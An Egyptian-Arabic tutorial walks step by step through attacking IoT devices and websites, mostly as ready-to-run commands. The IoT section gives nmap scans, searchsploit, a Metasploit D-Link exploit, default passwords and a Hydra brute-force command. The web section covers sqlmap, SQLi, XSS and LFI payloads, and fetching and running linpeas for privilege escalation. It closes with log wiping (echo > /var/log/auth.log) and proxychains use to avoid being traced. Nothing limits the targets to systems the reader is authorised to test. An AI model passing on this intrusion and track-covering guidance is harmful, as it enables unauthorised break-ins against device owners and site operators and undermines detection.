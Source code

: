 ## **📌 IoT Enumeration – فحص الثغرات في الأجهزة بعمق وبساطة 🔥**

---

## **🔍 1️⃣ يعني إيه فحص الثغرات في أجهزة الـ IoT؟ 🤔**

أجهزة إنترنت الأشياء (IoT) هي أي جهاز ذكي متصل بالإنترنت، زي:  
✅ **كاميرات المراقبة**  
✅ **أجهزة الراوتر**  
✅ **التلفزيونات الذكية**  
✅ **الأجهزة المنزلية الذكية (لمبات، حساسات، مكيفات، إلخ)**

🎯 **المشكلة**: أغلب الأجهزة دي بتكون ضعيفة من ناحية الأمان، والسبب:

- **كلمات مرور افتراضية ثابتة** (ناس كتير بتسيبها من غير تغيير).
- **وجود ثغرات معروفة في أنظمة التشغيل الخاصة بيها**.
- **استخدام بروتوكولات ضعيفة أو غير مشفرة** زي **Telnet, FTP, SNMP**.
- **تحديثات أمنية ضعيفة أو معدومة** من الشركات المصنعة.

---

## **📌 2️⃣ إزاي نعمل فحص للثغرات في الأجهزة دي؟ 🔍**

### **🛠️ 1- اكتشاف الأجهزة المتصلة بالشبكة**

✅ أول خطوة هي إننا نعرف إيه الأجهزة اللي شغالة على الشبكة. نستخدم Nmap لمسح الشبكة بالكامل:

```bash
nmap -sn 192.168.1.0/24
```

📌 **ده هيظهر لك كل الأجهزة المتصلة بالراوتر، مع الـ IP والـ MAC Address لكل جهاز.**

✅ لو عايز تعرف تفاصيل أكتر عن جهاز معين:

```bash
nmap -A 192.168.1.100
```

🔥 **ده هيكشف لك نظام التشغيل، الخدمات، والبورتات المفتوحة على الجهاز!**

---

### **🛠️ 2- البحث عن الخدمات والبورتات المفتوحة**

✅ لو جهاز IoT بيشتغل ببروتوكول معين، ممكن يكون فيه ثغرات!  
مثلاً، لو راوتر عليه **Telnet مفتوح**، ده معناه إنه غير آمن جدًا! 😱

📌 **جرب المسح التالي لمعرفة البورتات المفتوحة:**

```bash
nmap -sV -T4 192.168.1.100
```

🔥 **ده هيظهر كل الخدمات اللي شغالة على الجهاز وإصداراتها!**

✅ أشهر البورتات اللي ممكن تدل على مشكلة أمنية:

- **22 (SSH) – لو كان بيسمح بتسجيل الدخول من غير كلمة مرور!**
- **23 (Telnet) – مشفرش الاتصال، ممكن أي حد يتجسس عليه!**
- **80/443 (HTTP/HTTPS) – لو الجهاز بيشتغل بواجهة ويب ضعيفة الحماية!**
- **161 (SNMP) – ممكن يكشف معلومات حساسة عن الجهاز!**

---

### **🛠️ 3- البحث عن ثغرات معروفة للجهاز**

✅ لو عرفت نوع وإصدار الجهاز، دور على الثغرات بتاعته في قواعد البيانات المعروفة:

**📌 البحث في قاعدة بيانات Exploit-DB:**

```bash
searchsploit D-Link Router
```

🔥 **لو الجهاز فيه ثغرة، ممكن تستخدمها مباشرة في الاختراق!**

✅ أو استخدم موقع **CVE Details** للبحث عن ثغرات الجهاز:

```
https://cvedetails.com/
```

📌 **لو لقيت ثغرة، شوف هل ليها Exploit جاهز ولا تحتاج تعديل يدوي.**

---

### **🛠️ 4- تجربة استغلال الثغرات واختبار الاختراق**

#### **✅ أ) استخدام Metasploit لو فيه Exploit جاهز**

```bash
msfconsole
search dlink
use exploit/linux/http/dlink_command_exec
set RHOSTS 192.168.1.100
exploit
```

🔥 **ده لو فيه ثغرة معروفة في الراوتر، هيحاول ينفذ أوامر عليه!**

#### **✅ ب) تجربة كلمات المرور الافتراضية (Default Credentials)**

📌 معظم الأجهزة الذكية بتيجي بكلمات مرور افتراضية زي:

```
admin:admin
root:root
admin:1234
```

✅ جرب تدخل على صفحة تسجيل الدخول للجهاز (مثلاً [http://192.168.1.100)،](http://192.168.1.xn--100\)-81f/) ولو مشتغلش، استخدم **Brute Force Attack** بأداة **Hydra**:

```bash
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

🔥 **ده هيجرب كل كلمات المرور لحد ما يلاقي الصح!**

---

## **💡 الخلاصة بالعامية:**

1️⃣ **بنشوف إيه الأجهزة المتصلة بالشبكة باستخدام Nmap.**  
2️⃣ **بندور على الخدمات والبورتات المفتوحة، ونشوف لو فيه حاجة ضعيفة زي Telnet أو HTTP بدون تشفير.**  
3️⃣ **بندور على ثغرات معروفة للجهاز في Exploit-DB أو CVE Details.**  
4️⃣ **لو لقينا ثغرة، بنجرب نستغلها ب Metasploit أو نحاول نخمن الباسورد لو الجهاز بيستخدم الإعدادات الافتراضية.**  
🚀 **ببساطة، الأجهزة دي ممكن تكون بوابة سهلة للاختراق لو مش مؤمنة كويس! 😈**

---

# **📌 خطوات عملية كاملة لـ Web Penetration Testing 💻🔥**

💡 **دي خطة عملية متكاملة لأي اختبار اختراق لموقع ويب!**

### **📌 1️⃣ جمع المعلومات (Information Gathering)**

✅ استخدم **whois** لجمع بيانات عن الدومين:

```bash
whois example.com
```

✅ استخدم **Subdomain Enumeration** لاكتشاف النطاقات الفرعية:

```bash
subfinder -d example.com
```

✅ استخدم **Google Dorking** لاكتشاف الصفحات المخفية:

```bash
site:example.com inurl:admin
```

---

### **📌 2️⃣ فحص الثغرات (Scanning for Vulnerabilities)**

✅ **استخدم Nmap لفحص البورتات المفتوحة:**

```bash
nmap -A example.com
```

✅ **استخدم Nikto لفحص مشاكل الأمان في السيرفر:**

```bash
nikto -h http://example.com
```

✅ **استخدم SQLmap لاختبار SQL Injection:**

```bash
sqlmap -u "http://example.com/login.php?id=1" --dbs
```

---

### **📌 3️⃣ تجربة الاستغلال (Exploitation)**

✅ **اختبار SQL Injection يدويًا:**  
حاول تضيف `' OR 1=1 --` في حقول تسجيل الدخول وشوف النتيجة!  
✅ **اختبار XSS:**  
حاول تضيف `<script>alert('XSS')</script>` في أي مدخل بيانات وشوف لو ظهر تنبيه.  
✅ **اختبار LFI/RFI:**  
جرب `http://example.com/page.php?file=../../etc/passwd`

---

### **📌 4️⃣ رفع الامتيازات (Privilege Escalation)**

✅ **لو دخلت على السيرفر، دور على معلومات حساسة:**

```bash
find / -type f -name "*.conf"
```

✅ **جرب تستغل الـ Sudo Permissions:**

```bash
sudo -l
```

✅ **استخدم أدوات مثل Linpeas لاكتشاف الثغرات في السيرفر**

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

### **📌 5️⃣ تنظيف الأثر (Clearing Tracks)**

✅ **حذف أي Logs:**

```bash
echo > /var/log/auth.log
```

✅ **تشفير الاتصال أثناء الاختبار:**  
استخدم **Proxychains** و **VPN** أثناء تنفيذ الاختبار لتجنب التتبع!

---

💡 **الخلاصة:**  
1️⃣ **ابدأ بجمع المعلومات عن الموقع.**  
2️⃣ **افحص البورتات والثغرات باستخدام أدوات زي Nmap و SQLmap.**  
3️⃣ **جرب استغلال الثغرات يدويًا أو باستخدام Metasploit.**  
4️⃣ **لو اخترقت الموقع، جرب ترفع صلاحياتك وتبحث عن البيانات الحساسة.**  
5️⃣ **نظّف أثرك عشان ميتعرفش إنك دخلت!**

🚀 **بكده تقدر تعمل اختبار اختراق لأي موقع زي المحترفين! 🔥**